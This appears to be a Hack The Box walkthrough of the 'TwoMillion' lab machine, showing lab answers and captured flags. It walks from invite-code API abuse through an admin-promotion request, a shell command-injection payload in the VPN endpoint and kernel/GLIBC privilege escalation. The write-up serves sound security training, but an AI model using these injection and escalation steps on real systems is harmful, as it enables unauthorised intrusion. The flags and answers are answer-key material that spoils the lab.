

# Hack The Box: TwoMillion

**Difficulty:** Easy  
**OS:** Linux  
**Target:** `2million.htb`  
**Primary Vectors:** JavaScript deobfuscation, invite-code API abuse, hidden API route enumeration, admin role update, command injection, Linux kernel / GLIBC privilege escalation

---

## Overview

TwoMillion is an Easy Linux machine themed around the old Hack The Box invite-code flow. Initial enumeration reveals a web application with an invite-only registration process. By inspecting and deobfuscating the invite-page JavaScript, the invite-code generation endpoints can be discovered and abused to create an account.

After authentication, the API route list exposes admin-only endpoints. A user can be promoted to admin through `/api/v1/admin/settings/update`, and the admin VPN generation endpoint is vulnerable to command injection. This provides shell access as `www-data`, where the application's `.env` file exposes database credentials that allow switching to the `admin` user. Privilege escalation is possible through known 2023 Linux vulnerabilities, including OverlayFS (`CVE-2023-0386`) and Looney Tunables (`CVE-2023-4911`).

---

## Task Breakdown

### Task 1: TCP Ports

**Question:** How many TCP ports are open?

```bash
nmap -sV 10.129.229.66 -T4
```

**Result:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
80/tcp open  http    nginx
```

::: details Answer
`2`
:::

---

### Task 2: Browser Inspector

**Question:** What is the name of the JavaScript file loaded by the `/invite` page that has to do with invite codes?

Open the browser developer tools, visit `/invite`, and check the **Sources** or **Network** tab. The invite page loads the JavaScript file responsible for invite-code functionality.

::: details Answer
`inviteapi.min.js`
:::

---

### Task 3: JavaScript Deobfuscation

**Question:** What JavaScript function on the invite page returns the first hint about how to get an invite code? Do not include `()` in the answer.

The JavaScript is minified/obfuscated. Copy the script into a deobfuscator such as [de4js](https://thanhle.io.vn/de4js/) and decode it. The relevant functions are:

- `verifyInviteCode(code)`
- `makeInviteCode()`

`makeInviteCode` provides the first hint for generating an invite code.



::: details Answer
`makeInviteCode`
:::

---

### Task 4: Text Encoding

**Question:** The endpoint in `makeInviteCode` returns encrypted data. That message provides another endpoint to query. That endpoint returns a code value that is encoded with what very common binary-to-text encoding format?

The generated invite code ends with `=`, which is a common sign of Base64 padding.

::: details Answer
`base64`
:::

---

### Task 5: Connection Pack Endpoint

**Question:** What is the path to the endpoint the page uses when a user clicks on "Connection Pack"?

First, request the invite-generation instructions:

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```

Response:

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

Decode the ROT13 message:

```text
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Generate an invite code:

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

Response:

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "TzNCNUYtOVMyOFktTlY1UlctR0JZRkc=",
    "format": "encoded"
  }
}
```

Decode it:

```bash
echo 'TzNCNUYtOVMyOFktTlY1UlctR0JZRkc=' | base64 -d
```

```text
O3B5F-9S28Y-NV5RW-GBYFG
```

After registering and logging in, open the **Network** tab and click **Connection Pack**. The request is sent to the VPN generation endpoint.

::: details Answer
`/api/v1/user/vpn/generate`
:::

---

### Task 6: Admin Route List

**Question:** How many API endpoints are there under `/api/v1/admin`?

After logging in, copy the `PHPSESSID` cookie from the browser and query the API route list:

```bash
curl -s http://2million.htb/api/v1 \
  -H "Cookie: PHPSESSID=ri4tmc7ev0qutbl74tg27286se" | jq
```

Relevant output:

```json
"admin": {
  "GET": {
    "/api/v1/admin/auth": "Check if user is admin"
  },
  "POST": {
    "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
  },
  "PUT": {
    "/api/v1/admin/settings/update": "Update user settings"
  }
}
```

::: details Answer
`3`
:::

---

### Task 7: Admin Account Endpoint

**Question:** What API endpoint can change a user account to an admin account?

The route list shows that the settings-update endpoint can modify user settings, including admin status.

::: details Answer
`/api/v1/admin/settings/update`
:::

---

### Task 8: Command Injection Endpoint

**Question:** What API endpoint has a command injection vulnerability in it?

After promoting the current user to admin, the admin VPN generation endpoint can be abused by injecting shell metacharacters into the username value.

Example flow:

```bash
# Promote user to admin
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"email":"<your-email>","is_admin":1}'

# Test command injection
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"test;id;"}'
```

::: details Answer
`/api/v1/admin/vpn/generate`
:::

---

### Task 9: Environment Variables File

**Question:** What file is commonly used in PHP applications to store environment variable values?

::: details Answer
`.env`
:::

---

## User Flag

After gaining shell access and reading application files, credentials from the `.env` file can be used to switch to the `admin` user.

```bash
admin@2million:~$ cat user.txt
b5dce7eb09a3d126d838dc81052288c2
```

---

### Task 11: `/var/mail`

**Question:** What is the email address of the sender of the email sent to `admin`?

```bash
admin@2million:/var/mail$ cat admin
```

Relevant email headers:

```text
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
```

::: details Answer
`ch4p@2million.htb`
:::

---

### Task 12: OverlayFS CVE

**Question:** What is the 2023 CVE ID for a vulnerability that allows an attacker to move files in the Overlay file system while maintaining metadata like owner and SetUID bits?

::: details Answer
`CVE-2023-0386`
:::

---

## Root Flag

Using the OverlayFS exploit path gives root access.

```bash
root@2million:/root# cat root.txt
6ebddeb84a14e2c139073516d36aae0a
```

::: details Answer
`6ebddeb84a14e2c139073516d36aae0a`
:::

---

### Task 14: GLIBC Version

**Question:** [Alternative Priv Esc] What is the version of the GLIBC library on TwoMillion?

```bash
root@2million:/root# ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
```

::: details Answer
`2.35`
:::

---

### Task 15: Looney Tunables CVE

**Question:** [Alternative Priv Esc] What is the CVE ID for the 2023 buffer overflow vulnerability in the GNU C dynamic loader?

::: details Answer
`CVE-2023-4911`
:::

---

### Task 16: Looney Tunables Environment Variable

**Question:** [Alternative Priv Esc] With a shell as `admin` or `www-data`, find a PoC for Looney Tunables. What is the name of the environment variable that triggers the buffer overflow?

A public PoC is available here: [CVE-2023-4911 PoC](https://github.com/leesh3288/CVE-2023-4911).

::: details Answer
`GLIBC_TUNABLES`
:::
